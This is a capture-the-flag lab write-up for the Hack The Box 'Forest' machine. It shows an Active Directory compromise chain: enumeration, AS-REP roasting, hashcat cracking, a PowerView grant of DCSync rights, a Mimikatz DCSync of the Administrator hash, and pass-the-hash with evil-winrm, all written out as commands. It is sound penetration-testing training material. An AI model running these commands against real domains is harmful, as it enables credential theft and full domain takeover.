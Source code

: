 # Forest HTB Writeup

![image12](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/9c579e4d-8355-44c2-a4ff-95ac418997b6)

### Enumeration
We start off with a nmap scan, using default scripts (-sC), and the enumerating versions flags (-sV).
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-12 08:29 CST
WARNING: No targets were specified, so 0 hosts scanned.
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.45 seconds
                                                                                                                                                                                             
shellph1sh@kali:~/Htb/forest$ sudo nmap -p 53,88,135,139,389,445,464,593,636,3269,5985,9389,47001 -sC -sV -oA nmap/forest 10.10.10.161
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-12 08:29 CST
Nmap scan report for 10.10.10.161
Host is up (0.061s latency).

PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-12-12 14:36:32Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2023-12-12T06:36:42-08:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 2h46m39s, deviation: 4h37m09s, median: 6m37s
| smb2-time: 
|   date: 2023-12-12T14:36:39
|_  start_date: 2023-12-11T01:44:33
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.32 seconds
```

<br />

By this nmap scan, we can see that that this machine is an Active Directory Domain Controller. We can attempt to enumerate Domain user accounts if SMB anonymous bindings are enabled. So we run `enum4linux`.

<br />

![Untitled-1](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/10d0f494-f7f7-4a9b-9a27-074e5fea542a)

<br />

We aquire quite a few users from `enum4linux`, which we can use to leverage an attack.

<br />

### Exploitation
We can build a wordlist of Domain usernames to test if accounts are ASREP-Roastable. An ASREPRoasting attack leverages an accounts lack of Kerberos pre-authentication required, giving us the users hash.

We can build the text file users.txt like so:
```
sebastien
lucinda
svc-alfresco
andy
mark
santi
zeus
```

<br />

and utilize it in an ASREPRoasting attack with `impacket-GetNPUsers`:

<br />

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/e427e5ec-d449-4685-b33a-39834459c515)

<br />

We get a hash for the user svc-alfresco! The naming convention `svc` indicates a service account, meaning potentially more privilege being given to this account.

We can then attempt to crack the hash using hashcat, with the command: `hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule`:

<br />

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/89e74388-986f-48b6-9e95-cca47192b952)

<br />

Boom! We cracked the service account hash!
Great, now due to the WinRM service running on port 5985 that we enumerated earlier with nmap, we could potentially gain command execution if the service user is in the local group “Remote Management Users”.

<br />

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/78268aa2-ff39-47b7-ae5a-9321ccefaea0)

<br />

We get command execution!

<br />

### Privilege Escalation

As a Domain user, or a service account, I like to execute BloodHound on the target the enumerate potential domain vulnerabilities like Kerberoasting, or permission misconfiguration.


We find that the Domain Group `Account Operators` as `Generic All` access on `zeus`, and `svc-alfresco` is a part of the `Privileged Accounts` Domain Group, and the `Privileged Accounts` Domain Group is a member of the `Account Operators` Group. Because of this, our current user has full control over the user `zeus`. We can change their password, set them apart from the `Remote Management Users` to get RCE, then give them DCSync rights. 

<br />

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/6c3473f8-8d02-4e49-890f-42b44a6eb20d)


<br />

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/401c1c39-a67a-4028-bbe2-cb3c0fbefdad)

<br />

```
net localgroup "Remote Management Users" htb.local\zeus /add
```
<br />

Utilize PowerView to give Zeus DCSync rights

<br />

```
. .\PowerView.ps1
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB\zeus', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity htb.local -PrincipalIdentity zeus -Rights DCSync
```

<br />

Then we can use Evil-WinRM once more to gain access to the `zeus` account

<br />

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/740c03d3-a1a9-4833-9b29-96df83f1c638)

<br />

We can then use Mimikatz to preform the DCSync procedure as `zeus`.

```
Mimikatz.exe "lsadump::dcsync /domain:htb.local /user:Administrator" "exit"
```
<br />

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/ac9d1a04-d612-4b2b-ac6a-8a69303abce2)

<br />

And we've gathered the NTLM hash of the Administrator, we can use this to Pass the Hash (PtH) to the Domain Administrator with evil-winrm.

```
evil-winrm -i 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```

